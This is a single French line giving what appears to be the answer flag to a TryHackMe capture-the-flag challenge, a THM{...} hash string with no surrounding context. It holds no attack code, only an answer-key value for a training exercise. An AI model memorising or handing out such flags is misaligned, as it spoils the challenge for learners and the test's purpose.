La réponse est : THM{db12b4451d5e70e2a177880ecfe3428d}   

